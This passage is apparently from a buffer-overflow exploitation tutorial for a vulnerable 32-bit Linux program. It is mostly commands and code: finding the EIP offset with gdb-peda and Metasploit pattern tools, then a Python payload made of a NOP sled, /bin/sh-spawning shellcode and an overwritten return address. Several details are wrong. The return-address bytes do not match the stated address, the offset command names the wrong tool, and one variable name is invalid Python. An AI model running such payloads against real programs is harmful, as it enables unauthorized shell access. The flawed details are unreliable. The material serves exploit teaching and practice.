 ```
(gdb) run $(python -c 'print "A"*500')
```

**OR You can again generate a pattern with \[MSF]**

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500
```

\#Note down the value at the EIP and feed it to pattern\_offset to find the offset

```
Gdb-peda$:pattern offset [value]
```

**Alternatively, you can find the offset with \[MSF]**

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500 -q [value-at-EIP]
```

\#In this step, we use a shellcode that spawns \[/bin/sh] and send it to the program as part of the script below. We also use \[nop] which let the cpu do nothing to prevent the execution from failing. The purpose of the script below is to send our shellcode and write 4 \[Bs] in order to understand and find where will be the address of our shellcode.

```
buf_size=[offset-found-from-above]
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73"
shell_code += "\x68\x68\x2f\x62\x69\x6e\x89"
shell_code += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shell_code += "\xcd\x80\x31\xc0\x40\xcd\x80";
nop_sled = "\x90"*(buf_size-len(shell_code))
stack-address = "B" * 4
payload = nop_sled + shell_code + stack-address
print payload
```

```
Gdb-peda$:run $(python shell.py)
```

```
Gdb-peda$: x/500x $esp-500 : examining the esp
```

\#Here we look where our \[shellcode] starts in memory. To make things easier, look where is the last occurenace of \[x90] and mark the corresponding memory address. It will be the address of your \[shellcode]. But to make this work, we can pick up any address in the mids of \[x90]. Say it's \[0xbffff550] Updating the script:

```
buf_size=[offset-found-from-above]
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73"
shell_code += "\x68\x68\x2f\x62\x69\x6e\x89"
shell_code += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shell_code += "\xcd\x80\x31\xc0\x40\xcd\x80";
nop_sled = "\x90"*(buf_size-len(shell_code))

eip = "\xb0\xf7\xff\xbf" #0xbffff550
payload = nop_sled + shell_code + eip
print payload
```

